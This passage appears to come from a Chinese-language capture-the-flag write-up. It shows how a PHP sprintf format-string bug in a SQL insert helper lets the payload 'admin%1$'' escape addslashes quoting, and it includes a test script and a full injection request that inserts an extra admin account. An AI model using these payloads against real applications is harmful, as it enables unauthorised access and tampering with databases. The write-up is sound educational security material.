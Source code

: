 ```php
    }
}
```

可以看到prepareInsert函数里有一行`$baseSql = sprintf($baseSql, "`$column`,%s", "'$value',%s");`
然后想到了[2019 DDCTF的签到题](https://xz.aliyun.com/t/4862#toc-1)，里面有一个php格式化字符串的利用，又找了一篇文章[PHP字符串格式化特点和漏洞利用点](https://www.anquanke.com/post/id/170850)，开始研究这里能否利用。

首先根据Model.php写一个打印生成的sql语句的测试文件：

```php
<?php
error_reporting(0);
function prepareInsert($baseSql, $args)
{
    $i = 0;
    if (!empty($args)) {
        foreach ($args as $column => $value) {
            $value = addslashes($value);
            if ($value !== null) {
                if ($i !== count($args) - 1) {
                    $baseSql = sprintf($baseSql, "`$column`,%s", "'$value',%s");
                } else {
                    $baseSql = sprintf($baseSql, "`$column`", "'$value'");
                }
            }
            $i++;
        }
    }
    return $baseSql;
}
function save($args)
{
    $args = array_slice($args, 0, -2);
    $tbname = "test";
    $baseSql = "INSERT INTO `$tbname`(%s) VALUE(%s)";
    $sql = prepareInsert($baseSql, $args);
    return $sql;
}
echo urldecode($_GET['username'])."<br/>";
echo save(["username"=>$_GET['username'], "password" => '233333', "a"=>"xbt", "?"=>"asdasd"])."<br/>";
```

结合文章提到的方法以及用burpsuite爆破，可以构造出逃逸掉'的payload：`admin%1$'`

![3](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/630972691b028bf5f3d81358c40fde17.JPG)

然后尝试再insert一个admin进去

```text
username=admin%1$',0x36316265353561386532663662346531373233333862646466313834643664626565323963393838353365306130343835656365653766323762396166306234)-- -&password=aaaa
```
